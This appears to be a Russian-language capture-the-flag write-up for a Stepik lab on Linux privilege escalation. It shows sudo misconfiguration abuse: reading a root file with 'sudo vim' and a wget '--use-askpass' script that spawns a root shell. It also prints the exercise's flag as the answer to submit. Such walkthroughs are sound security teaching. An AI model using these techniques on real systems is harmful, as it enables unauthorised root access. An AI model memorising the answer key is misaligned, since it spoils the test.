

# Уровень 4. Практика "Повышение привилегий в Linux"

## 🎯 Задание
Проанализировать конфигурацию операционной системы от имени низкопривилегированного пользователя `regular`. Обнаружить уязвимости в конфигурации настроек `sudo`, позволяющие выполнить произвольные команды от имени суперпользователя (root).

**Цель:** в качестве подтверждения успешной эксплуатации получить флаг (секретную строку в формате 32 букв и цифр) из файла `/root/root.txt`.

---

## 🛠 Шаг 1. Инструменты
Всё необходимое для решения:
1. **Stepik** — для сдачи флага.
2. **lpe.zip** — архив с окружением задачи.
3. **Docker** — для запуска стенда в изолированном контейнере.
4. **Терминал** — для взаимодействия с системой через SSH.

---

## 🚀 Шаг 2. Запуск стенда
1. Перейдите в рабочую директорию `lpe-prod` через терминал.
2. Выполните команду для развертывания:
   ```bash
   docker-compose up -d
   ```
3. Подключитесь к контейнеру через SSH:
   ```bash
   ssh -p 2022 regular@127.0.0.1
   ```
   * **Логин:** `regular`
   * **Пароль:** `regular`

---

## 🔍 Шаг 3. Разведка и поиск уязвимости
Первым делом после входа в систему нужно узнать, какие привилегии нам делегировал администратор.

1. Проверим текущего пользователя:
   ```bash
   id
   ```
2. Проверим права `sudo`, доступные для нашего пользователя:
   ```bash
   sudo -l
   ```

**Вывод системы:**
```text
User regular may run the following commands on 8512515ef97a:
    (ALL : ALL) /usr/bin/nmap, /usr/bin/vim, /usr/bin/wget, /usr/bin/curl
```

> **Анализ:**  
> Мы видим, что пользователю разрешено запускать `nmap`, `vim`, `wget` и `curl` от имени любого пользователя (включая root). Большинство из этих утилит имеют встроенные возможности для выполнения команд или записи файлов, что является критической уязвимостью конфигурации.

---

## 🏆 Шаг 4. Захват флага
Существует несколько методов эксплуатации. Рассмотрим два наиболее наглядных.

### Способ 1: Прямое чтение через `vim`
Редактор `vim` при запуске с правами `sudo` позволяет редактировать любые системные файлы. Мы можем просто прочитать нужный нам файл:
```bash
sudo vim /root/root.txt
```
В открывшемся редакторе вы сразу увидите содержимое файла.

### Способ 2: Эксплуатация `wget` через `--use-askpass`
Утилита `wget` имеет параметр `--use-askpass`, который позволяет использовать внешнюю программу для запроса пароля. Если подсунуть туда свой скрипт, он будет выполнен с root-привилегиями:

```bash
# 1. Создаем временный файл
TF=$(mktemp)

# 2. Делаем его исполняемым
chmod +x $TF

# 3. Записываем в него команду, запускающую оболочку (sh)
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF

# 4. Запускаем wget с этим скриптом
sudo wget --use-askpass=$TF 0
```
После выполнения команды откроется новая оболочка (shell), где вы уже будете иметь права **root**. Остается только прочитать флаг:
```bash
cat /root/root.txt
```

**Флаг:** `612bf918827518347255bc3caf1625cf`

**Ответ для Stepik:** `612bf918827518347255bc3caf1625cf`



---
### тгк: [BoCoder_Python](https://t.me/BoCoder_Python)